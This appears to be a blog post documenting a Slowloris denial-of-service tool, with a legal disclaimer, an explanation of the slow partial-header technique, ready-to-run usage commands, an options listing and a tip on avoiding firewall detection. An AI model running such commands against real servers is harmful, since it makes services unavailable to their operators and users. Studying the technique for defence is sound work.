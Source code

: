 ## Notice

> The techniques and methods discussed in this blog are intended for educational purposes only, and should not be used without proper training, authorization, and legal consent. Any unauthorized or illegal use of these techniques may result in severe legal consequences, including criminal charges and civil lawsuits. The author of this blog assumes no responsibility or liability for any misuse or harm resulting from the use of the information provided. It is important to use caution and conduct penetration testing only with proper authorization and legal safeguards in place.

## Introduction

Slowloris is a type of denial-of-service (DoS) attack tool. It is designed to take advantage of a weakness in web servers that allows for slow connections by keeping the connection open as long as possible. The tool does this by initiating multiple connections to the target server and then sending HTTP headers very slowly, which can overwhelm the server's capacity to handle new connections.

Slowloris works by sending partial HTTP requests, leaving the request open and keeping the server waiting for the complete request. The tool can also keep multiple connections open simultaneously, thus further adding to the server's workload. By consuming server resources with idle connections, Slowloris can cause a server to become unresponsive or crash.

Slowloris is particularly effective against servers that have a limited number of resources available, such as those with low bandwidth or connections. The tool is also difficult to detect and prevent since it mimics legitimate traffic and does not require a large number of connections to be effective.

## Usage

### Basic Usage

```sh
python slowloris.py example.com
```

### With Specified Port

The default port number is 80, you can use option `-p` or `--port` to specify the port to attack.

```sh
python slowloris.py -p 8080 example.com
```

### With Specified Sleeptime

The default sleeptime is 15, you can use option `--sleeptime` to change the sleeptime between each header sent (notice that the sleeptime sould not be to short, or the attack may be detected by the firewall).

```sh
python slowloris.py --sleeptime 1 example.com
```

### Show More Log Info

Use option `-v` or `--verbose` to print more information on the terminal.

```sh
python slowloris.py -v example.com
```

### Send Request With Built-In User Agent

Use option `-ua` or `--user-agent` to randomize the user agent of each request.

```sh
python slowloris.py -ua example.com
```

## Demonstration

The demonstration shows that we used this tool to attack a local PHP built-in server. We can see there are more and more incomplete requests are sent to server and the threads are opened and remain open.

<div class="public-article-image">
    <img src="https://i.imgur.com/TqDkM7g.gif" /><br />
    <i>Slowloris Attack Demonstration.</i>
</div>

## Details

### Configuration Options

```
NAME
       slowloris - low bandwidth stress test tool for websites

SYNOPSIS
       slowloris.py [options] host

DESCRIPTION
    host
        Target host to attack.

OPTIONS
    -h, --help
        show this help message and exit

    -p , --port
        Port of webserver (default 80).

    -s , --sockets
        Number of sockets to create.

    -v, --verbose
        Show more information in the log.

    -ua, --user-agent 
        Randomizes user-agents with each request.

    --https
        Use HTTPS for the requests.

    --use-proxy
        Use a SOCKS5 proxy for connecting.

    --sleeptime
        Time to sleep between each header sent.

    --proxy-host
        SOCKS5 proxy host.

    --proxy-port
        SOCKS5 proxy port.
```

## Source

<ul class="public-article-references">
    <li>GitHub - <a href="https://github.com/91d906h4/Penetration-Testing-Tools/tree/main/Slowloris" target="_blank">https://github.com/91d906h4/Penetration-Testing-Tools/tree/main/Slowloris</a></li>
</ul>

## References

<ul class="public-article-references">
    <li>Slowloris, GitHub - <a href="https://github.com/91d906h4/Penetration-Testing-Tools/tree/main/Slowloris" target="_blank">https://github.com/91d906h4/Penetration-Testing-Tools/tree/main/Slowloris</a></li>
</ul>